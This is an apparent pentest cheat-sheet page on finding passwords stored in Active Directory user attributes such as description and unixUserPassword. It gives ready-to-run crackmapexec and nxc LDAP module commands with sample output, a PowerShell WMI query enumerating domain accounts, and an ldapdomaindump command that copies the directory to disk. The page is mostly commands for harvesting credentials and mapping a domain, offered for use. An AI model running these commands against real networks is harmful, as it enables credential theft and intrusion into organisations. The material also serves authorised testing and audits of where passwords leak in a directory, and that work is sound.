 # Password - AD User Comment

There are 3-4 fields that seem to be common in most Active Directory schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

* Password in User Description
    ```powershell
    crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
    crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
    GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
    GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
    GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
    ```

* Get `unixUserPassword` attribute from all users in ldap
    ```ps1
    nxc ldap 10.10.10.10 -u user -p pass -M get-unixUserPassword -M getUserPassword
    ```

* Native Powershell command
    ```powershell
    Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
    ```

* Dump the Active Directory and `grep` the content.
    ```powershell
    ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
    ```